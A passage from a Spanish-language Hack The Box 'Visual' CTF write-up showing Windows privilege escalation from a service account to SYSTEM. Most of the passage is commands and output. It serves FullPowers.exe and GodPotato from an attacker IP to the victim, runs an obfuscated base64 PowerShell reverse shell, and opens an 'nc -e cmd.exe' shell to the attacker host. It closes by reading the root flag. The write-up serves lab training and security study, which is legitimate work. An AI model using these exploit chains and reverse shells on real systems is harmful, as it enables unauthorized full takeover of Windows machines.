LOCAL SERVICEorNETWORK SERVICEare configured to run with a restricted set of privileges. Therefore, even if the service is compromised, you won’t get the golden impersonation privileges and privilege escalation toLOCAL SYSTEMshould be more complicated. However, I found that, when you create a scheduled task, the new process created by the Task Scheduler Service has all the default privileges of the associated user account (except SeImpersonate). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.
Nos descargamos este binario
1wget https://github.com/itm4n/FullPowers/releases/download/v0.1/FullPowers.exeY lo servimos por el puerto 8081.
1python3 -m http.server 8081
2Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...Ahora nos lo descargamos de la máquina víctima
1PS C:\Windows\Temp> iwr http://10.10.14.125:8081/FullPowers.exe -o FullPowers.exePor alguna razón no funciona.
1PS C:\Windows\Temp> .\FullPowers.exe
2[+] Started dummy thread with id 5008
3[+] Successfully created scheduled task.
4[+] Got new token! Privilege count: 7
5[+] CreateProcessAsUser() OK
6Microsoft Windows [Version 10.0.17763.4851]
7(c) 2018 Microsoft Corporation. All rights reserved.
8
9C:\Windows\system32>
10PS C:\Windows\Temp> whoami
11nt authority\local service
12PS C:\Windows\Temp> whoami /priv
13
14PRIVILEGES INFORMATION
15----------------------
16
17Privilege Name Description State
18============================= ============================== ========
19SeChangeNotifyPrivilege Bypass traverse checking Enabled
20SeCreateGlobalPrivilege Create global objects Enabled
21SeIncreaseWorkingSetPrivilege Increase a process working set DisabledVemos que podemos ejecutar un comando, vamos a probar a ejecutar un whoami /priv

Y ahora si que tenemos todos los permisos por alguna razón…
1PS C:\Windows\Temp> .\FullPowers.exe -c "whoami /priv"
2[+] Started dummy thread with id 1412
3[+] Successfully created scheduled task.
4[+] Got new token! Privilege count: 7
5[+] CreateProcessAsUser() OK
6
7PRIVILEGES INFORMATION
8----------------------
9
10Privilege Name Description State
11============================= ========================================= =======
12SeAssignPrimaryTokenPrivilege Replace a process level token Enabled
13SeIncreaseQuotaPrivilege Adjust memory quotas for a process Enabled
14SeAuditPrivilege Generate security audits Enabled
15SeChangeNotifyPrivilege Bypass traverse checking Enabled
16SeImpersonatePrivilege Impersonate a client after authentication Enabled
17SeCreateGlobalPrivilege Create global objects Enabled
18SeIncreaseWorkingSetPrivilege Increase a process working set EnabledPara trabajar mas cómodamente me voy a mandar una consola a través de la herramienta, por alguna razón esto si funciona aunque no entiendo bien el porque.
1PS C:\Windows\Temp> .\FullPowers.exe -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAyADUAIgAsADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" 1sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.125] from (UNKNOWN) [10.129.229.122] 49680
4
5PS C:\Windows\system32> whoami
6nt authority\local service
7PS C:\Windows\system32> whoami /priv
8
9PRIVILEGES INFORMATION
10----------------------
11
12Privilege Name Description State
13============================= ========================================= =======
14SeAssignPrimaryTokenPrivilege Replace a process level token Enabled
15SeIncreaseQuotaPrivilege Adjust memory quotas for a process Enabled
16SeAuditPrivilege Generate security audits Enabled
17SeChangeNotifyPrivilege Bypass traverse checking Enabled
18SeImpersonatePrivilege Impersonate a client after authentication Enabled
19SeCreateGlobalPrivilege Create global objects Enabled
20SeIncreaseWorkingSetPrivilege Increase a process working set EnabledY ahora vemos que tenemos el permiso SeImpersonatePrivilege así que es hora de sacar las patatas..
Aunque vemos que la versión de sistema operativo es Microsoft Windows Server 2019 Standard y JuicyPotato no funciona para esta versión de Windows.
Pero podemos utilizar otros exploits como RoguePotato para poder escalar privilegios.
Pero existe un problema, y es que para poder explotar el RoguePotato se necesita que esté el SMB abierto y sabemos que solo está abierto el puerto 80.
Después de probar algunos exploits me funcionó GodPotato
La descripción del exploit es la siguiente:
Basado en la historia de la escalada de privilegios con la serie de herramientas “Potato” durante 6 años, desde los inicios de RottenPotato hasta el final de JuicyPotatoNG, he descubierto una nueva tecnología al investigar DCOM, que permite la escalada de privilegios en Windows 2012 - Windows 2022, siempre que tengas el permiso “ImpersonatePrivilege”. Con este permiso, te conviertes en “NT AUTHORITY\SYSTEM”. Generalmente, los servicios web y de bases de datos tienen permisos de “ImpersonatePrivilege”.
La escalada de privilegios con Potato se usa habitualmente cuando obtenemos privilegios en servicios WEB o de bases de datos. Podemos elevar un usuario de servicio con bajos privilegios a privilegios de “NT AUTHORITY\SYSTEM”. Sin embargo, las versiones anteriores de Potato no podían ejecutarse en los sistemas Windows más recientes. Durante mi investigación sobre DCOM, encontré un nuevo método para realizar la escalada de privilegios. Existen algunas vulnerabilidades en rpcss al manejar oxid, y rpcss es un servicio que debe estar habilitado por el sistema, por lo que puede ejecutarse en casi cualquier sistema operativo Windows. A esta nueva técnica la llamé GodPotato.
Nos descargamos el exploit en nuestra máquina
1wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exeLo servimos por el puerto 8081 y lo descargamos en la máquina víctima.
1PS C:\Windows\temp\work> iwr http://10.10.14.125:8081/GodPotato-NET4.exe -o GodPotato-NET4.exeY al ejecutar el exploit vemos que nos devuelve el output como nt authority\system
1PS C:\Windows\temp\work> .\GodPotato-NET4.exe -cmd "cmd /c whoami"
2[*] CombaseModule: 0x140716660883456
3[*] DispatchTable: 0x140716663189616
4[*] UseProtseqFunction: 0x140716662565792
5[*] UseProtseqFunctionParamCount: 6
6[*] HookRPC
7[*] Start PipeServer
8[*] Trigger RPCSS
9[*] CreateNamedPipe \\.\pipe\37b30828-e6cb-4904-8b08-41d7c6373e1a\pipe\epmapper
10[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
11[*] DCOM obj IPID: 0000d402-11e8-ffff-15ae-5b45b6d77182
12[*] DCOM obj OXID: 0xd0663253fc3d960b
13[*] DCOM obj OID: 0x5a3370c25301eb32
14[*] DCOM obj Flags: 0x281
15[*] DCOM obj PublicRefs: 0x0
16[*] Marshal Object bytes len: 100
17[*] UnMarshal Object
18[*] Pipe Connected!
19[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
20[*] CurrentsImpersonationLevel: Impersonation
21[*] Start Search System Token
22[*] PID : 872 Token:0x816 User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
23[*] Find System Token : True
24[*] UnmarshalObject: 0x80070776
25[*] CurrentUser: NT AUTHORITY\SYSTEM
26[*] process start with pid 1432
27nt authority\systemNos podemos mandar una revshell con netcat
1PS C:\Windows\temp\work> .\GodPotato-NET4.exe -cmd "C:\ProgramData\nc.exe 10.10.14.125 443 -e cmd.exe"Y ganamos acceso como nt authority\system
1sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.125] from (UNKNOWN) [10.129.229.122] 49695
4Microsoft Windows [Version 10.0.17763.4840]
5(c) 2018 Microsoft Corporation. All rights reserved.
6
7C:\Windows\temp\work>whoami
8whoami
9nt authority\systemPodemos leer la flag de root
1C:\Users\Administrator\Desktop>type root.txt
2type root.txt
3935410c7ad83....¡Y ya estaría!
Happy Hacking! 🚀
#HackTheBox #Visual #Writeup #Cybersecurity #Penetration Testing #CTF #Reverse Shell #RCE #Exploit #Windows #HTTP Enumeration #Gitea #Docker #Weaponizing .NET Project #Abusing PreBuild #User Pivoting #Recovering Privileges #FullPowers.exe #Privilege Escalation #GodPotato.exe #Abusing SeImpersonatePrivilege